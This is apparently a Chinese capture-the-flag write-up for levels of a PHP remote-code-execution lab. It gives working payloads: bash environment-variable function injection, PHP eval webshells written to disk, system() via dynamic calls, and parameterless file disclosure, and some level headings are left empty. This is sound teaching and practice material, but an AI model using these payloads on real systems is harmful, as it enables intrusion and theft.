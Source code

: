 ### Level 18 : 命令执行 - 环境变量注入 

[【我是如何利用环境变量注入执行任意命令】](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)

```
foreach($_REQUEST['a'] as $key => $val) {
    putenv("{$key}={$val}");
}
=> a[key] = val
```

- Bash 4.4以前：`env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"`
- Bash 4.4及以上：`env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'`

```
<@URLencode>?envs[BASH_FUNC_echo%%]=() { cat /flag; }<@URLencode>
?envs[BASH_FUNC_echo%25%25]=()%20{%20cat%20/flag;%20}
```

Level 19 : 文件写入导致的RCE 

| 函数                | 说明                                                         | 示例代码                                                     |
| ------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `file_put_contents` | 将字符串写入文件，如果文件不存在会尝试创建。适用于快速简单地写入数据到文件。 | `file_put_contents('example.php', '<?php eval($_GET[helloctf]); ?>');` |
| `fwrite/fputs`      | 向一个打开的文件流写入数据，适用于需要更细粒度的控制文件操作的场景。 | `$fp = fopen('example.php', 'w'); fwrite($fp, '<?php eval($_GET[helloctf]); ?>'); fclose($fp);` |
| `fprintf`           | 类似于 `fwrite`，但提供格式化功能，允许按照特定格式写入数据到文件流。适用于需要格式化写入的场景。 | `$fp = fopen('example.php', 'w'); fprintf($fp, '<?php eval($_GET[helloctf]); ?>'); fclose($fp);` |

Level 20 : 文件上传导致的RCE 

没有做任何waf 直接上传webshell执行命令即可


Level 21 : 文件包含导致的RCE 



Level 22 : PHP 特性 - 动态调用 

```
?a=system&b=cat /flag
```

Level 23 : PHP 特性 - 自增

 

Level 24 : PHP 特性 - 无参命令执行 

```
?code=var_dump(scandir(current(localeconv())));
```

得到数组 `array(6) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(8) "flag.php" [3]=> string(12) "get_flag.php" [4]=> string(9) "index.php" [5]=> string(7) "uploads" }` 

```
?code=show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

